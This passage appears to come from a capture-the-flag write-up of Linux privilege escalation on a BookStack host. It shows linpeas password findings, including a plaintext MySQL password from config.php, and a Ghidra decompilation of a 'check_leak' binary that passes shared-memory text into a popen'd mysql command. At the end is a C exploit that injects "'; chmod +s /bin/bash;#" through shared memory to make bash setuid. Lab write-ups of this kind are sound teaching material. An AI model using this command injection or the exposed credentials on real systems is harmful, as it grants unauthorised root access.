/opt/BookStack/app/Config/database.php:    $redisDefaults = ['host' => '127.0.0.1', 'port' => '6379', 'database' => '0', 'password' => null];
/opt/BookStack/bootstrap/cache/config.php:        'password' => 'bookstack-test',
/opt/BookStack/bootstrap/cache/config.php:        'password' => 'pK8HK7IHCKLCNHUJ7',
/opt/BookStack/bootstrap/cache/config.php:        'password' => NULL,
/opt/BookStack/bootstrap/cache/config.php:      'Password' => 'Illuminate\\Support\\Facades\\Password',
/opt/BookStack/bootstrap/cache/config.php:      'passwords' => 'users',
/opt/BookStack/bootstrap/cache/config.php:    'authentication_password' => 'VerySecretPassword',
/opt/BookStack/bootstrap/cache/config.php:    'password_timeout' => 10800,
/opt/BookStack/bootstrap/cache/config.php:    'passwords' => 
/opt/BookStack/lang/ar/settings.php:    'users_password' => 'كلمة مرور المستخدم',
/opt/BookStack/lang/ar/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/bg/settings.php:    'users_password' => 'Потребителска парола',
/opt/BookStack/lang/bg/settings.php:    'users_password_desc' => 'Настрой парола за вписване в приложението. Тя трябва да бъде дълга поне 8 знака.',
/opt/BookStack/lang/bg/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/bs/settings.php:    'users_password' => 'User Password',
/opt/BookStack/lang/bs/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/ca/settings.php:    'users_password' => 'Contrasenya de l\'usuari',
/opt/BookStack/lang/ca/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/cs/settings.php:    'users_password' => 'Heslo uživatele',
/opt/BookStack/lang/cs/settings.php:    'users_password_desc' => 'Zadejte heslo pro přihlášení do aplikace. Heslo musí být nejméně 8 znaků dlouhé.',
/opt/BookStack/lang/cs/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/cy/settings.php:    'users_password' => 'User Password',
/opt/BookStack/lang/cy/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/da/settings.php:    'users_password' => 'Brugeradgangskode',
/opt/BookStack/lang/da/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/de/settings.php:    'users_password' => 'Benutzerpasswort',
/opt/BookStack/lang/de_informal/settings.php:    'users_password' => 'Benutzerpasswort',
/opt/BookStack/lang/el/settings.php:    'users_password' => 'Κωδικός Χρήστη',
/opt/BookStack/lang/el/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/en/settings.php:    'users_password' => 'User Password',
/opt/BookStack/lang/en/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/es/settings.php:    'users_password' => 'Contraseña de usuario',
/opt/BookStack/lang/es/settings.php:    'users_password_warning' => 'Solo debe rellenar este campo si desea cambiar la contraseña pora este usuario.',
/opt/BookStack/lang/es_AR/settings.php:    'users_password' => 'Contraseña de Usuario',
/opt/BookStack/lang/et/settings.php:    'users_password' => 'Kasutaja parool',
/opt/BookStack/lang/et/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/eu/settings.php:    'users_password' => 'Erabiltzaile pasahitza',
/opt/BookStack/lang/eu/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/fa/settings.php:    'users_password' => 'رمز عبور كاربر',
/opt/BookStack/lang/fa/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/fi/settings.php:    'users_password' => 'User Password',
/opt/BookStack/lang/fi/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/fr/settings.php:    'users_password' => 'Mot de passe de l\'utilisateur',
/opt/BookStack/lang/he/settings.php:    'users_password' => 'סיסמא',
/opt/BookStack/lang/he/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/hr/settings.php:    'users_password' => 'Lozinka korisnika',
/opt/BookStack/lang/hr/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/hu/settings.php:    'users_password' => 'Felhasználó jelszava',
/opt/BookStack/lang/hu/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/id/settings.php:    'users_password' => 'Kata Sandi Pengguna',
/opt/BookStack/lang/id/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/it/settings.php:    'users_password' => 'Password Utente',
/opt/BookStack/lang/ja/settings.php:    'users_password' => 'ユーザー パスワード',
/opt/BookStack/lang/ja/settings.php:    'users_password_desc' => 'アプリケーションへのログインに利用するパスワードを設定してください。8文字以上である必要があります。',
/opt/BookStack/lang/ja/settings.php:    'users_password_warning' => 'このユーザーのパスワードを変更したい場合にのみ、以下を入力してください。',
/opt/BookStack/lang/ka/settings.php:    'users_password' => 'User Password',
/opt/BookStack/lang/ka/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/ko/settings.php:    'users_password' => '사용자 패스워드',
/opt/BookStack/lang/ko/settings.php:    'users_password_desc' => '패스워드는 여덟 글자를 넘어야 합니다.',
/opt/BookStack/lang/ko/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/lt/settings.php:    'users_password' => 'Naudotojo slaptažodis',
/opt/BookStack/lang/lt/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/lv/settings.php:    'users_password' => 'Lietotāja parole',
/opt/BookStack/lang/lv/settings.php:    'users_password_desc' => 'Uzstādiet paroli, ar ko piekļūt aplikācijai. Tai jābūt vismaz 8 simbolus garai.',
/opt/BookStack/lang/lv/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/nb/settings.php:    'users_password' => 'Passord',
/opt/BookStack/lang/nb/settings.php:    'users_password_warning' => 'Fyll bare ut nedenfor hvis du vil endre passordet for denne brukeren.',
/opt/BookStack/lang/nl/settings.php:    'users_password' => 'Wachtwoord gebruiker',
/opt/BookStack/lang/nn/settings.php:    'users_password' => 'Passord',
/opt/BookStack/lang/nn/settings.php:    'users_password_warning' => 'Berre fyll ut under om du vil endre passordet til brukaren.',
/opt/BookStack/lang/pl/settings.php:    'users_password' => 'Hasło użytkownika',
/opt/BookStack/lang/pl/settings.php:    'users_password_desc' => 'Ustaw hasło logowania do aplikacji. Hasło musi mieć przynajmniej 8 znaków.',
/opt/BookStack/lang/pl/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/pt/settings.php:    'users_password' => 'Palavra-passe do Utilizador',
/opt/BookStack/lang/pt/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/pt_BR/settings.php:    'users_password' => 'Senha do Usuário',
/opt/BookStack/lang/pt_BR/settings.php:    'users_password_warning' => 'Preencha o seguinte apenas se desejar alterar a senha deste usuário.',
/opt/BookStack/lang/ro/settings.php:    'users_password' => 'Parolă utilizator',
/opt/BookStack/lang/ro/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/ru/settings.php:    'users_password' => 'Пароль пользователя',
/opt/BookStack/lang/ru/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/sk/settings.php:    'users_password' => 'Heslo používateľa',
/opt/BookStack/lang/sk/settings.php:    'users_password_desc' => 'Nastavte heslo používané na prihlásenie do aplikácie. Musí mať aspoň 8 znakov.',
/opt/BookStack/lang/sk/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/sl/settings.php:    'users_password' => 'Uporabniško geslo',
/opt/BookStack/lang/sl/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/sq/settings.php:    'users_password' => 'User Password',
/opt/BookStack/lang/sq/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/sv/settings.php:    'users_password' => 'Användarlösenord',
/opt/BookStack/lang/sv/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/tr/settings.php:    'users_password' => 'Kullanıcı Şifresi',
/opt/BookStack/lang/tr/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/uk/settings.php:    'users_password' => 'Пароль користувача',
/opt/BookStack/lang/uk/settings.php:    'users_password_desc' => 'Встановіть пароль для входу. Він повинен містити принаймні 5 символів.',
/opt/BookStack/lang/uk/settings.php:    'users_password_warning' => 'Заповніть поле нижче, лише якщо ви хочете змінити пароль для цього користувача.',
/opt/BookStack/lang/uz/settings.php:    'users_password' => 'Foydalanuvchi paroli',
/opt/BookStack/lang/uz/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/vi/settings.php:    'users_password' => 'Mật khẩu người dùng',
/opt/BookStack/lang/vi/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',
/opt/BookStack/lang/zh_CN/settings.php:    'users_password' => '用户密码',
/opt/BookStack/lang/zh_CN/settings.php:    'users_password_desc' => '设置用于登录本应用的密码。 长度必须至少为 8 个字符。',
/opt/BookStack/lang/zh_CN/settings.php:    'users_password_warning' => '如果您想更改此用户的密码，请填写以下内容：',
/opt/BookStack/lang/zh_TW/settings.php:    'users_password' => '使用者密碼',
/opt/BookStack/lang/zh_TW/settings.php:    'users_password_desc' => '設定用於登入應用程式的密碼。密碼必須至少 8 個字元長。',
/opt/BookStack/lang/zh_TW/settings.php:    'users_password_warning' => 'Only fill the below if you would like to change the password for this user.',


╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/etc/pam.d/common-password
/opt/BookStack/database/migrations/2014_10_12_100000_create_password_resets_table.php
/opt/BookStack/lang/ar/passwords.php


opt/BookStack/resources/js/components/new-user-password.js
/opt/BookStack/resources/views/auth/invite-set-password.blade.php
/opt/BookStack/resources/views/auth/passwords
/opt/BookStack/resources/views/form/password.blade.php
/usr/bin/systemd-ask-password
/usr/bin/systemd-tty-ask-password-agent
/usr/lib/git-core/git-credential
/usr/lib/git-core/git-credential-cache
/usr/lib/git-core/git-credential-cache--daemon
/usr/lib/git-core/git-credential-store
  #)There are more creds/passwds files in the previous parent folder

```

So nothings seem to work and walk towards end so i again check script and this i decide to check binary which check for if user is in leaked list.... So using scp download it......


next let's use ghidra for disassembly.....
```

undefined8 main(int param_1,ulong param_2)

{
  char cVar1;
  undefined4 uVar2;
  uint uVar3;
  char *pcVar4;
  char *pcVar5;
  char *pcVar6;
  char *pcVar7;
  size_t sVar8;
  char *pcVar9;
  
  pcVar4 = getenv("DB_HOST");
  pcVar5 = getenv("DB_USER");
  pcVar6 = getenv("DB_PASSWORD");
  pcVar7 = getenv("DB_NAME");
  if (*(char *)((param_2 + 8 >> 3) + 0x7fff8000) != '\0') {
    __asan_report_load8(param_2 + 8);
  }
  pcVar9 = *(char **)(param_2 + 8);
  if ((((pcVar4 == (char *)0x0) || (pcVar5 == (char *)0x0)) || (pcVar6 == (char *)0x0)) ||
     (pcVar7 == (char *)0x0)) {
    if (DAT_80019140 != '\0') {
      __asan_report_load8(&stderr);
    }
    fwrite("Error: Missing database credentials in environment\n",1,0x33,stderr);
    __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_1 != 2) {
    if (*(char *)((param_2 >> 3) + 0x7fff8000) != '\0') {
      __asan_report_load8(param_2);
    }
    if (DAT_80019140 != '\0') {
      __asan_report_load8(&stderr);
    }
    fprintf(stderr,"Usage: %s <USER>\n");
    __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (pcVar9 != (char *)0x0) {
    cVar1 = *(char *)(((ulong)pcVar9 >> 3) + 0x7fff8000);
    if (cVar1 <= (char)((byte)pcVar9 & 7) && cVar1 != '\0') {
      __asan_report_load1(pcVar9);
    }
    if (*pcVar9 != '\0') {
      sVar8 = strlen(pcVar9);
      if (0x14 < sVar8) {
        if (DAT_80019140 != '\0') {
          __asan_report_load8(&stderr);
        }
        fwrite("Error: <USER> is too long. Maximum length is 20 characters.\n",1,0x3c,stderr);
        __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      pcVar9 = fetch_hash_from_db(pcVar4,pcVar5,pcVar6,pcVar7,pcVar9);
      if (pcVar9 == (char *)0x0) {
        puts("User not found in the database.");
      }
      else {
        uVar2 = check_bcrypt_in_file("/opt/hash-checker/leaked_hashes.txt",pcVar9);
        if ((char)uVar2 == '\0') {
          puts("User is safe.");
        }
        else {
          puts("Password is leaked!");
          if (DAT_8001913c != '\0') {
            __asan_report_load8(&stdout);
          }
          fflush(stdout);
          uVar3 = write_to_shm(pcVar9);
          printf("Using the shared memory 0x%X as temp location\n",(ulong)uVar3);
          if (DAT_8001913c != '\0') {
            __asan_report_load8(&stdout);
          }
          fflush(stdout);
          sleep(1);
          notify_user(pcVar4,pcVar5,pcVar6,pcVar7,uVar3);
          clear_shared_memory(uVar3);
        }
        free(pcVar9);
      }
      return 0;
    }
  }
  if (DAT_80019140 != '\0') {
    __asan_report_load8(&stderr);
  }
  fwrite("Error: <USER> is not provided.\n",1,0x1f,stderr);
  __asan_handle_no_return();
                    /* WARNING: Subroutine does not return */
  exit(1);
}

```

This was main function while also got what is going in background
```

void notify_user(undefined8 param_1,undefined8 param_2,char *param_3,undefined8 param_4,uint param_5
                )

{
  char cVar1;
  uint __shmid;
  int iVar2;
  undefined8 *puVar3;
  char *__haystack;
  char *pcVar4;
  char *__s;
  FILE *__stream;
  ulong uVar5;
  bool bVar6;
  undefined8 *extraout_RDX;
  ulong uVar7;
  undefined8 *puVar8;
  long in_FS_OFFSET;
  undefined8 local_1a8 [47];
  long local_30;
  
  puVar8 = local_1a8;
  if ((__asan_option_detect_stack_use_after_return != 0) &&
     (puVar3 = (undefined8 *)__asan_stack_malloc_3(0x160), puVar3 != (undefined8 *)0x0)) {
    puVar8 = puVar3;
  }
  *puVar8 = 0x41b58ab3;
  puVar8[1] = "1 32 256 17 result_buffer:171";
  puVar8[2] = notify_user;
  uVar7 = (ulong)puVar8 >> 3;
  *(undefined4 *)(uVar7 + 0x7fff8000) = 0xf1f1f1f1;
  *(undefined4 *)(uVar7 + 0x7fff8024) = 0xf3f3f3f3;
  *(undefined4 *)(uVar7 + 0x7fff8028) = 0xf3f3f3f3;
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  __shmid = shmget(param_5,0,0x1b6);
  if (__shmid == 0xffffffff) {
    printf("No shared memory segment found for the given address: 0x%X\n",(ulong)param_5);
  }
  else {
    __haystack = (char *)shmat(__shmid,(void *)0x0,0);
    if (__haystack == (char *)0xffffffffffffffff) {
      if (DAT_80019140 != '\0') {
        __asan_report_load8(&stderr);
      }
      fprintf(stderr,
              "Unable to attach to shared memory segment with ID %d. Please check if the segment is accessible.\n"
              ,(ulong)__shmid);
    }
    else {
      pcVar4 = strstr(__haystack,"Leaked hash detected");
      if (pcVar4 == (char *)0x0) {
        puts("No hash detected in shared memory.");
      }
      else {
        pcVar4 = strchr(pcVar4,0x3e);
        if (pcVar4 == (char *)0x0) {
          puts("Malformed data in the shared memory.");
        }
        else {
          pcVar4 = trim_bcrypt_hash(pcVar4 + 1);
          iVar2 = setenv("MYSQL_PWD",param_3,1);
          if (iVar2 == 0) {
            iVar2 = snprintf((char *)0x0,0,
                             "mysql -u %s -D %s -s -N -e \'select email from teampass_users where pw  = \"%s\"\'"
                             ,param_2,param_4,pcVar4);
            __s = (char *)malloc((long)(iVar2 + 1));
            if (__s == (char *)0x0) {
              puts("Failed to allocate memory for command");
              shmdt(__haystack);
              bVar6 = false;
            }
            else {
              snprintf(__s,(long)(iVar2 + 1),
                       "mysql -u %s -D %s -s -N -e \'select email from teampass_users where pw = \"% s\"\'"
                       ,param_2,param_4,pcVar4);
              __stream = popen(__s,"r");
              if (__stream == (FILE *)0x0) {
                puts("Failed to execute MySQL query");
                free(__s);
                shmdt(__haystack);
                bVar6 = false;
              }
              else {
                pcVar4 = fgets((char *)(puVar8 + 4),0x100,__stream);
                if (pcVar4 == (char *)0x0) {
                  puts("Failed to read result from the db");
                  pclose(__stream);
                  free(__s);
                  shmdt(__haystack);
                  bVar6 = false;
                }
                else {
                  pclose(__stream);
                  free(__s);
                  pcVar4 = strchr((char *)(puVar8 + 4),10);
                  if (pcVar4 != (char *)0x0) {
                    cVar1 = *(char *)(((ulong)pcVar4 >> 3) + 0x7fff8000);
                    if (cVar1 <= (char)((byte)pcVar4 & 7) && cVar1 != '\0') {
                      __asan_report_store1(pcVar4);
                    }
                    *pcVar4 = '\0';
                  }
                  pcVar4 = strdup((char *)(puVar8 + 4));
                  if (pcVar4 == (char *)0x0) {
                    puts("Failed to allocate memory for result string");
                    shmdt(__haystack);
                    bVar6 = false;
                  }
                  else {
                    puVar3 = puVar8 + 4;
                    cVar1 = *(char *)(((ulong)puVar3 >> 3) + 0x7fff8000);
                    if (cVar1 <= (char)((byte)puVar3 & 7) && cVar1 != '\0') {
                      __asan_report_load1(puVar3);
                      puVar3 = extraout_RDX;
                    }
                    if (*(char *)puVar3 != '\0') {
                      printf("User will be notified via %s\n",puVar8 + 4);
                    }
                    free(pcVar4);
                    bVar6 = true;
                  }
                }
              }
            }
          }
          else {
            perror("setenv");
            shmdt(__haystack);
            bVar6 = false;
          }
          uVar5 = (ulong)(puVar8 + 4) >> 3;
          *(undefined4 *)(uVar5 + 0x7fff8000) = 0xf8f8f8f8;
          *(undefined4 *)(uVar5 + 0x7fff8004) = 0xf8f8f8f8;
          *(undefined4 *)(uVar5 + 0x7fff8008) = 0xf8f8f8f8;
          *(undefined4 *)(uVar5 + 0x7fff800c) = 0xf8f8f8f8;
          *(undefined4 *)(uVar5 + 0x7fff8010) = 0xf8f8f8f8;
          *(undefined4 *)(uVar5 + 0x7fff8014) = 0xf8f8f8f8;
          *(undefined4 *)(uVar5 + 0x7fff8018) = 0xf8f8f8f8;
          *(undefined4 *)(uVar5 + 0x7fff801c) = 0xf8f8f8f8;
          if (!bVar6) goto LAB_00103b3a;
        }
      }
      iVar2 = shmdt(__haystack);
      if (iVar2 == -1) {
        perror("shmdt");
      }
      unsetenv("MYSQL_PWD");
    }
  }
LAB_00103b3a:
  if (local_1a8 == puVar8) {
    *(undefined8 *)(uVar7 + 0x7fff8000) = 0;
    *(undefined8 *)(uVar7 + 0x7fff8008) = 0;
    *(undefined8 *)(uVar7 + 0x7fff8010) = 0;
    *(undefined8 *)(uVar7 + 0x7fff8018) = 0;
    *(undefined8 *)(uVar7 + 0x7fff8020) = 0;
    *(undefined4 *)(uVar7 + 0x7fff8028) = 0;
  }
  else {
    *puVar8 = 0x45e0360e;
    *(undefined8 *)(uVar7 + 0x7fff8000) = 0xf5f5f5f5f5f5f5f5;
    *(undefined8 *)(uVar7 + 0x7fff8008) = 0xf5f5f5f5f5f5f5f5;
    *(undefined8 *)(uVar7 + 0x7fff8010) = 0xf5f5f5f5f5f5f5f5;
    *(undefined8 *)(uVar7 + 0x7fff8018) = 0xf5f5f5f5f5f5f5f5;
    *(undefined8 *)(uVar7 + 0x7fff8020) = 0xf5f5f5f5f5f5f5f5;
    *(undefined4 *)(uVar7 + 0x7fff8028) = 0xf5f5f5f5;
    *(undefined *)puVar8[0x3f] = 0;
  }
  if (local_30 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}

```

this check_leak file took mysql db connection details from env.....
and using mysql to check passwd.....
```
"mysql -u %s -D %s -s -N -e \'select email from teampass_users where pw  = \"%s\"\'"
```

when we are running linpeas we found a passwd from bookstack....
```
╔══════════╣ Searching passwords in config PHP files
/opt/BookStack/app/Config/database.php:            'password'       => env('DB_PASSWORD', ''),
/opt/BookStack/app/Config/database.php:            'password'       => env('MYSQL_PASSWORD', 'bookstack-test'),
/opt/BookStack/app/Config/database.php:    $redisDefaults = ['host' => '127.0.0.1', 'port' => '6379', 'database' => '0', 'password' => null];
/opt/BookStack/bootstrap/cache/config.php:        'password' => 'bookstack-test',
/opt/BookStack/bootstrap/cache/config.php:        'password' => 'pK8HK7IHCKLCNHUJ7',
/opt/BookStack/bootstrap/cache/config.php:        'password' => NULL,
/opt/BookStack/bootstrap/cache/config.php:      'Password' => 'Illuminate\\Support\\Facades\\Password',
/opt/BookStack/bootstrap/cache/config.php:      'passwords' => 'users',
/opt/BookStack/bootstrap/cache/config.php:    'authentication_password' => 'VerySecretPassword',
/opt/BookStack/bootstrap/cache/config.php:    'password_timeout' => 10800,
/opt/BookStack/bootstrap/cache/config.php:    'passwords' => 
```

Let's check `/opt/BookStack/bootstrap/cache/config.php` file for more details. So use scp i also download it to check the file..... 


and while checking file we got mysql database connection details....


```
	'host' => 'localhost',
        'database' => 'bookstack_db',
        'username' => 'bookstack',
        'password' => 'pK8HK7IHCKLCNHUJ7',
        'unix_socket' => '',
        'port' => 3306,
```

Next let's try to login into mysql database...... 
`mysql -u bookstack -D bookstack_db -p`
and with password `` we got logged in.


and choose bookstack_db as database.....
```
mysql> show tables;
+------------------------+
| Tables_in_bookstack_db |
+------------------------+
| activities             |
| api_tokens             |
| attachments            |
| books                  |
| bookshelves            |
| bookshelves_books      |
| cache                  |
| chapters               |
| comments               |
| deletions              |
| email_confirmations    |
| entity_permissions     |
| failed_jobs            |
| favourites             |
| images                 |
| jobs                   |
| joint_permissions      |
| mfa_values             |
| migrations             |
| page_revisions         |
| pages                  |
| password_resets        |
| permission_role        |
| references             |
| role_permissions       |
| role_user              |
| roles                  |
| search_terms           |
| sessions               |
| settings               |
| social_accounts        |
| tags                   |
| user_invites           |
| users                  |
| views                  |
| watches                |
| webhook_tracked_events |
| webhooks               |
+------------------------+
38 rows in set (0.00 sec)
```
So let's checks users table.....


Got nothing else for more from mysql database.....

## let's check check_leak and check-leak.sh again.....
When with already known user bob, we try to run script and


and we can see there is a shared memory location here with that can check data.....
Using ghidra i disassemble check_leak elf file.....


Whole checking things is based on if check_leak can access that shared memory or not........ which also store message for 1 sec.

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>


// tVar4 = time((time_t *)0x0); // give out  current time
/* The time() function returns the current calendar time as a time_t value (usually the number of seconds since the Unix epoch: January 1, 1970, UTC).
* (time_t *)0x0 (or NULL) is passed as the argument, which tells the time() function to return the time but not store it in a time_t variable.
* The result is assigned to the variable tVar4. This value represents the current time in seconds.
*/
// srand((uint)tVar4);
/* srand() sets the seed for the pseudo-random number generator used by rand().
* By passing the uint cast of tVar4 (current time), the seed is made dynamic. This ensures that the random numbers generated by rand() will differ with each execution of the program (assuming the time changes between runs).
*/
// key = tvar4 % 0xfffff
// __shmid = shmget(key,0x400,0x3b6);
/* key: The first parameter (iVar2 % 0xfffff) specifies the unique key for identifying the shared memory segment. This key is often generated dynamically, as shown here with the modulus operation (iVar2 % 0xfffff). The % 0xfffff ensures the key stays within a valid range.
* 
* size: The second parameter (0x400) specifies the size of the shared memory segment in bytes. 0x400 (hexadecimal) equals 1024 in decimal, meaning the shared memory segment is 1024 bytes.
* 
* shmflg: The third parameter (0x3b6) defines flags and permissions for the shared memory segment. 0x3b6 in binary (11101101110) translates to:
* - Read and write access for the owner (rw).
* - Read access for the group (r).
* - Read access for others (r).
*/
// pcVar4 = strchr(pcVar4,0x3e);
// if (pcVar4 == (char *)0x0) {
//    puts("Malformed data in the shared memory.");
//}
/* The strchr() function is used to locate the first occurrence of a specific character (0x3e) within a string.
* pcVar4: Initially points to a memory location containing a string.
* After the operation, pcVar4 will either point to the first occurrence of the character 0x3e (> in ASCII) within the string, or it will be NULL (0x0) if the character is not found.
*/
/*    pcVar4 = strstr(__haystack,"Leaked hash detected");
*      if (pcVar4 == (char *)0x0) {
*        puts("No hash detected in shared memory.");
*      }
*
* This snippet is part of a program that validates or processes data stored in shared memory. It specifically looks for the phrase "Leaked hash detected" to determine if the shared memory contains certain expected content. If the substring is absent, it logs the outcome with an error message.
*/

// Main function
int main() {
    // Generate a random seed based on the current time
    unsigned int tVar4 = (unsigned int)time(NULL); // Get the current calendar time
    srand(tVar4); // Seed the random number generator to ensure different values each execution

    // Generate a random key for the shared memory segment
    key_t key = rand() % 0xFFFFF; // Limit the key to fit within the valid range for shmget

    // Create or get a shared memory segment (size: 1024 bytes, permissions: read/write for all)
    int __shmid = shmget(key, 0x400, IPC_CREAT | 0666); 
    if (__shmid < 0) { // Check if shmget failed
        perror("shmget failed"); // Print an error message
        return 1; // Exit the program with failure
    }
// from write_to_shm function
    // Attach the shared memory segment to the process's address space
    char *_s = (char *)shmat(__shmid, NULL, 0); //_s = shared memory
    if (_s == (char *)-1) { // Check if shmat failed
        perror("shmat failed"); // Print an error message
        return 1; // Exit the program with failure
    }

    // Write a formatted message into the shared memory
    const char *message = "Leaked hash detected > '; chmod +s /bin/bash;#"; // Sample message
    snprintf(_s, 0x400, "%s", message); // Copy the message into the shared memory

    // Print the content of shared memory to confirm successful writing
    printf("Message in shared memory: %s\n", _s);

    // Detach the shared memory segment from the process
    if (shmdt(_s) == -1) { // Check if shmdt failed
        perror("shmdt failed"); // Print an error message
        return 1; // Exit the program with failure
    }

    return 0; // Exit the program successfully
}

```
